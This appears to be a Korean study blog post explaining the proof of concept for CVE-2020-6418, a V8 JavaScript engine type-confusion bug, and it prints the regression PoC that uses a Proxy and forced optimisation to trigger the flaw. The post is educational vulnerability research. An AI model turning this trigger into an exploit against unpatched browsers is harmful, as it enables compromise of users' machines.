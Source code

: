 ```yaml
---
layout: post
read_time: true
show_date: true
title: "CVE-2020-6418-PoC(KO)"
date: 2025-01-23
img: posts/20240925/v8_picture.png
tags: [V8, 1-day, PoC]
category: PoC
author: adawn0106
description: "CVE-2020-6418-PoC(KO)"
comments: true

---
```


지난 번의 root cause에 이어 PoC에 대해 설명해보겠습니다.

소스코드와 분석은 https://cwresearchlab.co.kr/entry/CVE-2020-6418-Incorrect-side-effect-modelling-for-JSCreate 블로그를 참고하였습니다.
* 공부를 위한 분석이기 때문에 내용이 틀릴수도 있습니다.

<br><br><br>

## PoC
---

<br><br><br>

PoC 소스코드는 아래와 같습니다. 

<br><br><br>

```js
/* poc.js */

// Copyright 2020 the V8 project authors. All rights reserved.
// Use of this source code is governed by a BSD-style license that can be
// found in the LICENSE file.

// Flags: --allow-natives-syntax

let a = [0, 1, 2, 3, 4];

function empty() { }

function f(p) {
    return a.pop(Reflect.construct(empty, arguments, p));
}

let p = new Proxy(Object, {
    get: () => (a[1] = 1.1, Object.prototype)
});

function main(p) {
    return f(p);
}

% PrepareFunctionForOptimization(empty);
% PrepareFunctionForOptimization(f);
% PrepareFunctionForOptimization(main);

main(empty);
main(empty);
% OptimizeFunctionOnNextCall(main);
```